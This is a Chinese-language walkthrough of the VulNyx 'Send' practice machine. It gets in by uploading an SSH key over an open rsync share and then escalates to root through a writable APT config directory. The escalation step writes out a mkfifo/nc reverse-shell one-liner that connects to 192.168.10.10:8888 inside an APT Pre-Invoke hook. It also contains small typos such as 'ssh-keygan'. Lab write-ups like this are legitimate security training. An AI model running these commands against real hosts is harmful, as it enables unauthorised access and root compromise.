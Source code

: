 # 环境

来自[Vulny_Send](https://vulnyx.com/#Send)，rsync同步自己的ssh密钥，连上ssh，apt配置文件提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240911165504015](image/image-20240911165504015.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.23
```

![image-20240911165608580](image/image-20240911165608580.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,873 192.168.10.23
```

![image-20240911165801942](image/image-20240911165801942.png)

## 目录爆破

```bash
dirb http://192.168.10.23  #无结果
```

# rsync渗透

## rsync同步密钥

```bash
rsync rsync://192.168.10.23
同步目录shaer，用户名wally
ssh-keygan
rsync -anvP ~/.ssh 192.168.10.23::/share
ssh wally@192.168.10.23 -i .ssh/id_ed25519
```

![image-20240911172809736](image/image-20240911172809736.png)

## 提权

跑一下linpeas.sh和pspy64，发现`/etc/apt/apt.config.d`有写权限，而且还要定时运行里面的配置文件

`/etc/apt/apt.conf.d/` 用于存放 APT配置文件

![image-20240913103550248](image/image-20240913103550248.png)

```bash
#写一个apt配置文件提权脚本
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.10.10 8888 >/tmp/f"};' > door
```

![image-20240913105345290](image/image-20240913105345290.png)
